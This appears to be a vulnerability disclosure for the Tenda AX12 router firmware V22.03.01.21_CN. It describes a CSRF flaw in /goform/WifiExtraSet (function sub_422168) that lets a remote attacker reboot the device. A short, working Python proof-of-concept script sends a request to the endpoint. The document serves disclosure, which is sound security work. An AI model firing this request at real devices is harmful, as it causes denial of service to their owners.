

Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

The vulnerability exists in the sub_422168 function.



It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC

```python
import requests

url = "http://192.168.158.149/goform/WifiExtraSet"

r = requests.post(url)
#r = requests.get(url) also can do
print(r.content)
```

